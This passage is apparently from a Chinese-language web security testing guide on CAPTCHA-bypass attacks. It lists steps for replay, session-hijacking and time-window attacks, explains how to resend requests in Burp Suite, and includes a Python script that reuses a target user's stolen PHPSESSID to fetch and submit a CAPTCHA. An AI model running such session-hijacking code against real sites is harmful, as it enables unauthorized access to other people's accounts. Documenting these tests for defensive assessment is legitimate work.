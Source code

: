 ### 3.2 攻击步骤

#### 3.2.1 重复提交攻击

1. 访问验证码生成页面，获取验证码。
2. 提交验证码并记录响应。
3. 重复提交相同的验证码，观察是否每次都能通过验证。

#### 3.2.2 会话劫持攻击

1. 获取目标用户的Session ID（如通过XSS漏洞）。
2. 使用该Session ID发起请求，获取验证码。
3. 提交验证码并观察是否通过验证。

#### 3.2.3 时间窗口攻击

1. 获取验证码并记录获取时间。
2. 在验证码有效期内多次提交相同的验证码。
3. 观察是否每次都能通过验证。

## 4. 实际命令、代码或工具使用说明

### 4.1 使用Burp Suite进行重复提交攻击

1. **配置Burp Suite**：设置代理，拦截浏览器请求。
2. **获取验证码**：访问验证码生成页面，获取验证码。
3. **拦截请求**：提交验证码，拦截请求。
4. **重复提交**：在Burp Suite中重复发送拦截的请求，观察响应。

### 4.2 使用Python脚本进行会话劫持攻击

```python
import requests

# 目标URL
url = "http://example.com/verify_captcha"

# 目标用户的Session ID
session_id = "target_session_id"

# 设置Session
session = requests.Session()
session.cookies.set("PHPSESSID", session_id)

# 获取验证码
captcha_response = session.get("http://example.com/generate_captcha")
captcha = captcha_response.text

# 提交验证码
data = {"captcha": captcha}
response = session.post(url, data=data)

print(response.text)
```
